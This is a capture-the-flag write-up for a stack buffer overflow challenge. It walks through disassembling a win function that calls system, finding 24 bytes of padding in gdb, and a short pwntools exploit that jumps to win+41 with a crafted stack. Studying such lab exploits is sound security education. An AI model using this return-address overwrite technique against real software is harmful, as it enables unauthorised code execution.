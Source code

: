 # Writeup

## Static Analysis

Similarly to the previous challenge there is a `target` string:

```c
char target[] = "cat flag.txt";
```

The `vuln` function is also the same.

This time instead of having a `pointer` variable along with `increment`, `shift` and `win` functions, there is just a `win` function:

```c
void win(long a, long b, long c, long d, long e, long f) {
    system((char *)(a ^ b ^ c ^ d ^ e ^ f));
    return;
}
```

The function takes 6 arguments, XORs them together and gives that as an the argument to `system`. We can therefore deduce that we need to somehow set these arguments so that when XORed they point to `target`.

Unlike `x86-32`, `x86-64` takes the first 6 arguments from registers (`rdi`, `rsi`, `rdx`, `rcx`, `r8` and `r9`) rather than from the stack. This makes passing these arguments rather difficult. If there were a larger codebase it may be possible to use ROP gadgets to set these registers prior to calling `win` but in our case such gadgets don't exist.

Let's look deeper into the assembly code that is produced for the `win` function. This can be done with `disass win` (short for `disassemble win`):

```assembly
   0x0000000000401152 <+0>:     push   rbp
   0x0000000000401153 <+1>:     mov    rbp,rsp
   0x0000000000401156 <+4>:     and    rsp,0xfffffffffffffff0
   0x000000000040115a <+8>:     sub    rsp,0x30
   0x000000000040115e <+12>:    mov    QWORD PTR [rsp+0x28],rdi
   0x0000000000401163 <+17>:    mov    QWORD PTR [rsp+0x20],rsi
   0x0000000000401168 <+22>:    mov    QWORD PTR [rsp+0x18],rdx
   0x000000000040116d <+27>:    mov    QWORD PTR [rsp+0x10],rcx
   0x0000000000401172 <+32>:    mov    QWORD PTR [rsp+0x8],r8
   0x0000000000401177 <+37>:    mov    QWORD PTR [rsp],r9
   0x000000000040117b <+41>:    mov    rax,QWORD PTR [rsp+0x28]
   0x0000000000401180 <+46>:    xor    rax,QWORD PTR [rsp+0x20]
   0x0000000000401185 <+51>:    xor    rax,QWORD PTR [rsp+0x18]
   0x000000000040118a <+56>:    xor    rax,QWORD PTR [rsp+0x10]
   0x000000000040118f <+61>:    xor    rax,QWORD PTR [rsp+0x8]
   0x0000000000401194 <+66>:    xor    rax,QWORD PTR [rsp]
   0x0000000000401198 <+70>:    mov    rdi,rax
   0x000000000040119b <+73>:    call   0x401030 <system@plt>
   0x00000000004011a0 <+78>:    nop
   0x00000000004011a1 <+79>:    leave  
   0x00000000004011a2 <+80>:    ret
```

We can see that after the function prologue the arguments are moved to the stack, XORed and then used to call `system`. What if  instead of returning to the start of the function we returned to `win+41`? At this point the program expects all the arguments to be on the stack which we can control using our buffer overflow.

## Dynamic Analysis

We have already devised a plan so all we need is the padding length:

```
gdb ./vuln
r
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz
```

The program tries to return to `0x6665646362615a59` (`YZabcdef`) so we need 24 bytes of padding.

## Exploit

We will again use Pwntools to develop our exploit:

```
pwn template vuln --host 127.0.0.1 --port 42005 --quiet > exploit.py
```

The actual exploit code is very simple. We just send the padding, return address (`win+41`) and 6 numbers that when XORed together point to `target` (the address of `target` and 5 zeros will do fine):

```python
io.sendlineafter("Enter your name: ", flat({
    24: [exe.sym.win + 41, exe.sym.target] + [0] * 5 
}))
```

The full exploit code can be found in `exploit.py`.


